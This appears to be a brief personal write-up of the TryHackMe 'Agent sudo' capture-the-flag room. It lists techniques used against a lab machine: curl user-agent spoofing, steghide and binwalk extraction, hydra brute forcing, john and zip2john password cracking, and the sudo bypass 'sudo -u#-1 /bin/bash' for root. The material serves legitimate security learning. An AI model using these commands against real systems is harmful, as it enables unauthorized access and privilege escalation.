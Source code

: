 # Agent sudo 🧭
Names | Details
--------|-----
Source | tryhackme 
Level     | medium
Os | Linux

**Notes :**
#categoty/stegnography 
#categoty/hashCracking 



## Gaining Access 😉

- user agent changing using curl
- binwalk extraction
- hydra bruteforce



## Maintaining Access 🥷
- bash can be run without password
	- sudo -u#-1 /bin/bash 
- sudo -l


## Important commands 🔥
- `curl -A "R" -L [http://10.10.23.158/](http://10.10.23.158/)`
	```
	curl "http://10.10.23.158" -H "User-Agent: R" -L
	```
- binwalk -e
- echo QXJlYTUx | base64 -d
- scp username@hostname:/path/to/remote/file /path/to/local/file
- `steghide extract -sf cute-alien.jpg`
- binwalk
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- password cracking using john
- zip2john => zip bruteforce
- ssh file download using scp
- extract from jpeg using steghide and binwalk


--------------------------------
**By Nibras Muhammed** 🤓🖥️






